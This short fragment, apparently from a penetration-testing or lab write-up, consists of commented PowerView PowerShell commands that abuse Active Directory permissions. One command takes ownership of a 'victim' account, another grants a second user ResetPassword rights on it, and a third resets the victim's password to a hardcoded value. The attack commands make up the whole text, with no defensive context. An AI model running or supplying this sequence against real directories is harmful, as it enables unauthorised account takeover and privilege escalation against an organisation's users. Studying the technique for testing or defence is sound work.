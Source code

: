 
Set-DomainObjectOwner -Identity victim -OwnerIdentity tom 

# Assign 'axura' permissions to reset passwords on 'victim' object 

Add-DomainObjectAcl -TargetIdentity victim -PrincipalIdentity axura -Rights ResetPassword 
# Create a PowerShell secure string for the new password and reset password of 'victim' $newPassword = ConvertTo-SecureString "Axura@4sure1377" -AsPlainText -Force Set-DomainUserPassword -Identity victim -AccountPassword $newPassword